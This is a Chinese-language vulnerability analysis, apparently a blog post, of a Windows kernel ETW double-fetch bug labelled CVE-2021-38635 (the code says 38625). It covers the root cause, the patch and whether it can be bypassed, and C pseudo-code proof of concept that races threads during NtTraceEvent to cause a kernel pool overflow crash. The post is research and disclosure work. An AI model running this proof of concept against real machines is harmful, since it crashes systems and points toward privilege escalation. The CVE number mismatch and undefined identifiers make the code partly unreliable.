关于特殊组参考 [understand-special-identities-groups](https://github.com/MicrosoftDocs/windowsserverdocs/blob/main/WindowsServerDocs/identity/ad-ds/manage/understand-special-identities-groups.md)

如何将普通用户添加到 `Performance Log Users`组呢？

compmgmt.msc 找到本地用户和组



包含 `Performance Log Users` `S-1-5-32-559`  普通用户也支持注册 Trace Provider



## CVE-2021-38635  root cause

清楚了ETW 相关内部结构表示，内存管理和访问控制，现在我们看下这个漏洞。

分析环境:   windows server 2008 sp2   ntoskrnl.exe  6.0.6001.18000

漏洞出现在  `EtwpReserveTraceBuffer`  第二个参数

`mallocSize` 等于 `n80`  但是这里是从用户buffer 偏移固定长度读取 DWORD值，并且没有对值进行检查。但是严格来说，这里不是漏洞点



`EtwpReserveTraceBuffer` 从之前的队列中获取内存buf后写入一些数据， 再次从用户态指针获取指针和大小，很明显这里存在double fetch，后续memmove 导致越界写漏洞。



在编写poc之前，我们先看看是如何修复的   笔者以`6.1.76.01.24384`进行分析

首先检查了获取的大小



检查double fetch  这里既检查了整数溢出，还检查了是否比之前分配内存大小更大，避免越界写。



初步看上去，修复还是没什么问题的。但是笔者当时在这里有尝试进行绕过。笔者的思路是这样：

1. 分配大内存 0xffffff, 第二次fetch_size 满足条件后，memmove 越界写 NonPagedPool内存，因为目前仅存的校验是验证是否溢出，越界等；没有考虑足够的大小越界写非分页池内存，比如ETW内存分配NonPagedPool  0x10000内存，但是这里对大小判断不严谨，可能会有问题。

基于这个设想，笔者分析了 `EtwpReserveTraceBuffer` 函数

确保大小小于 `WMI_LOGGER_CONTEXT MaximumEventSize`  字段



笔者检查了现有的 WMI Logger Context，大小没有超过0x10000的，但是MaximumEventSize是DWORD类型，我们能否自己注册一个 WMI Provider 到 `WmipLoggerContext` 呢？幸运地是：

ETW 支持注册GUID到 `WmipLoggerContext` [here](https://www.anquanke.com/post/id/255916#h3-6)  初始值占位为1

随后对WMI Logger 初始化逻辑和注册逻辑进行分析

ETW 使用全局变量 `WmipLoggerContext` 存储Logger session

`EtwInitialize`初始化全部为1，容量为 0x40

`EtwpStartLogger`函数内调用`EtwpInitLoggerContext` 根据Loggername 初始化Logger context



后续设置 MaximumEventSize  最大为0xffff



所以，上面修复方案保护了后续的memmove。

现在，我们回归到漏洞本身。

## poc

漏洞函数出现在 `EtwpWriteUserEvent` 

函数原型

```c
__int64 __fastcall EtwpWriteUserEvent(
        _ETW_GUID_ENTRY *p_EtwpSecurityProviderGuidEntry,
        unsigned __int8 etwRegEntry_EnableMask,
        _ETW_EtwpWriteUserEvent_CVE_2021_38625 *inputBuf,
        const __m128i *Guid,
        unsigned int len,
        unsigned __int64 input_off58);
```

其中第三个参数 __inputBuf是传入的buf,这是上下文对象， 第六个参数是偏移0x58的一个用户态指针

前两字节是传入buf的大小，然后是Magic，只能是 0xc013或0xc012

```c
typedef struct _ETW_EtwpWriteUserEvent_CVE_2021_38625 {
    USHORT cbSize;       // 0x70
    USHORT Magic;       // 0xC013,0xC012
    ULONG64 unk1;
// 0x10
    ULONG64 unk2;
    ULONG64 unk3;
// 0x20
    ULONG64 unk4;
    ULONG64 unk5;
// 0x30
    ULONG64 unk6;
    ULONG64 unk7;
// 0x40
    ULONG64 unk8;
    ULONG64 unk9;
// 0x50
    DWORD Flag;     // =1
// 0x54
    DWORD Size;
// 0x58
    vuln_context* Addr;
// 0x60
    BYTE Guid[0x10];
}ETW_EtwpWriteUserEvent_CVE_2021_38625,*PETW_EtwpWriteUserEvent_CVE_2021_38625;
```

`EtwpWriteUserEvent` 可以由 `NtTraceEvent` 被调用

```c
NTSTATUS __cdecl NtTraceEvent(
        HANDLE TraceHandle,
        _ETW_TRACE_EVENTFLAG Flags,
        ULONG FieldSize,
        _ETW_EtwpWriteUserEvent_CVE_2021_38625 *inputBuf)
```

`ObReferenceObjectByHandle`  获取内核对象后，会检查Trace 是否开启




所以我们可以这样构造poc:

1. 通过 `NtTraceControl`  `EtwRegisterGuidsCode` 注册ETW Registration， 内核会创建`EtwpRegistrationObjectType` 并返回 EtwRegistration Handle
2. 通过 `NtTraceControl`  `EtwSendDataBlock`    开启 Trace功能
3. 构造输入buf,  创建线程修改 0x58指针处的DWORD值，触发double fetch 造成越界写

> note:  pseudo-code

```c
typedef struct _vuln_context {
    void* addr;
    int size;
    int padding;
    byte data[1];
}vuln_context, * pvuln_context;
/*
@url
@desc
*/
typedef struct _ETW_EtwpWriteUserEvent_CVE_2021_38625 {
    USHORT cbSize;       // 0x70
    USHORT Magic;       // 0xC013,0xC012
    ULONG64 unk1;
// 0x10
    ULONG64 unk2;
    ULONG64 unk3;
// 0x20
    ULONG64 unk4;
    ULONG64 unk5;
// 0x30
    ULONG64 unk6;
    ULONG64 unk7;
// 0x40
    ULONG64 unk8;
    ULONG64 unk9;
// 0x50
    DWORD Flag;     // =1
// 0x54
    DWORD Size;
// 0x58
    vuln_context* Addr;
// 0x60
    BYTE Guid[0x10];
}ETW_EtwpWriteUserEvent_CVE_2021_38625,*PETW_EtwpWriteUserEvent_CVE_2021_38625;

void register_guid_return_tracehandle(){
    NTSTATUS status = 0;
    DWORD size = 0;
    ETW_REGISTER_GUID etw_guid = { 0 };
    etw_guid.ProviderID = MyEventProviderGuid;
    etw_guid.Type = EtwNotificationTypeEnable;
    etw_guid.hThread = (DWORD)GetCurrentThread();
    status = p_NtTraceControl(EtwRegisterGuidsCode, &etw_guid, sizeof(ETW_REGISTER_GUID), &etw_guid, sizeof(ETW_REGISTER_GUID), &size);
    std::cout << "NtTraceControl status: " << std::hex << status << std::endl;
    std::cout << "EtwRegistration Handle: " << std::hex << etw_guid.EtwRegistration << std::endl;
    PrintHex((PBYTE)&etw_guid, size);
    *EtwRegistrationHandle = etw_guid.EtwRegistration;
}

void enable_trace(){
    NTSTATUS status = 0;
    DWORD size = 0;
    ETW_ENABLE_NOTIFICATION_PACKET* addr = (ETW_ENABLE_NOTIFICATION_PACKET*)LocalAlloc(LPTR, sizeof(ETW_ENABLE_NOTIFICATION_PACKET) + 0x10);
    addr->Header.NotificationType = EtwNotificationTypeEnable;
	addr->Header.NotificationSize = sizeof(ETW_ENABLE_NOTIFICATION_PACKET);
    addr->EnableInfo = { 0 };
    addr->EnableInfo.IsEnabled = 1;		// [here]
	addr->EnableInfo.Level = 3;
    // we need bigger WMI_LOGGER_CONTEXT MaximumEventSize
    addr->EnableInfo.LoggerId = 0x3;      
    addr->EnableContext = { 0 };
    addr->Operation = 1;
    addr->Header.DestinationGuid = MyEventProviderGuid;

    status = p_NtTraceControl(EtwSendDataBlock, addr, sizeof(ETW_ENABLE_NOTIFICATION_PACKET), addr, 0x48, &size);
    if (STATUS_BUFFER_TOO_SMALL == status)
    {
        status = p_NtTraceControl(EtwSendDataBlock, addr, 0x10, addr, size + 0x10, &size);
        if (0 == status) {
            std::cout << "NtTraceControl status: " << std::hex << status << std::endl;
            std::cout << "GUID Count: " << std::hex << size << std::endl;
        }
        LocalFree(addr);
    }
    else
    {
        if (STATUS_WMI_GUID_NOT_FOUND == status) {
            std::cout << "STATUS_WMI_GUID_NOT_FOUND" << std::endl;
        }
        std::cout << "NtTraceControl status: " << std::hex << status << std::endl;
    }
}

DWORD thread1(LPVOID ctx2) {
    vuln_context* ctx = (vuln_context*)ctx2;
    Sleep(1000);
    while (ctx->size != 0x100000000 - 0x50)
    {
        printf("threadid: %d  race successfully!\n",GetCurrentThreadId());
        // 0x100000000 - 0x50
        // 0xff00
        // 0x3fb1 - 0x68
        ctx->size = 0x100000000 - 0x50;
        break;
    }
    return 1;
}

void main(){
    NTSTATUS status = 0;
    DWORD size = 0;
    ETW_EtwpWriteUserEvent_CVE_2021_38625 poc = { 0 };
    poc.cbSize = 0x70;
    poc.Magic = 0xC012;
    poc.unk1 = 0x4141414141414141;
    poc.unk2 = 0x4141414141414141;
    poc.unk3 = 0x4141414141414141;
    poc.unk4 = 0x4141414141414141;
    poc.unk5 = 0x0000000000000000;
    poc.unk6 = 0x0000000000000000;
    poc.unk7 = 0x4141414141414141;
    poc.unk8 = 0x4141414141414141;
    poc.unk9 = 0x4141414141414141;
    poc.Flag = 1;
    poc.Size = 0x1;
    poc.Addr = (vuln_context*)malloc(sizeof(vuln_context));
    poc.Addr->addr = malloc(0x100000000 - 0x50);
    // sp2 0x100000000 - 0x68;
    // 0xff00
    // 0x3fb1 - 0x68
    poc.Addr->size = 0x100000000 - 0x68;
    poc.Addr->padding = 0;
    memset(poc.Guid, 0x42, 0x10);
    
    register_guid_return_tracehandle();
    enable_trace();
    
    HANDLE hTable[THREAD_MAX];
    for (size_t i = 0; i < THREAD_MAX; i++)
    {
        // 创建线程 race condition
        hTable[i] = CreateThread(0, 0, thread1, poc.Addr, 0, 0);
    }
    WaitForMultipleObjects(THREAD_MAX, hTable, TRUE, 1000);

    std::cout << "REGHANDLE: " << std::hex << g_hProvider << std::endl;
    // 触发漏洞
    status = p_NtTraceEvent(EtwRegistration, this->High ? WRITE_TRACE_EVENT : WRITE_TRACE_EVENT_LOW,sizeof(ETW_EtwpWriteUserEvent_CVE_2021_38625), &poc);
    std::cout << "NtTraceEvent status: " << std::hex << status << std::endl;

    PrintHex((PBYTE)&poc, size);

    EventUnregister(g_hProvider);
    for (size_t i = 0; i < THREAD_MAX; i++)
    {
        CloseHandle(hTable[i]);
    }
}
```

由于是内核池越界写，因此触发BSOD形式各不同。




## exploit

通常对于NonPagedPool 越界写，我们可以构造pool fengshui， 写入数据和长度都可控比较容易利用。但在这里，ETW自实现了内存管理，很大概率越界写会破坏其他ETW 非分页池内存，难度较大。 笔者这里没有对利用进一步进行研究。



## reference

1. https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/wdm/nf-wdm-etwregister
2. https://www.anquanke.com/post/id/255916#h3-6
3. https://www.nirsoft.net/kernel_struct/vista/WMI_LOGGER_CONTEXT.html
4. https://www.exploit-db.com/docs/english/43528-windows-kernel-exploitation-tutorial-part-4-pool-feng-shui-%E2%80%93-pool-overflow.pdf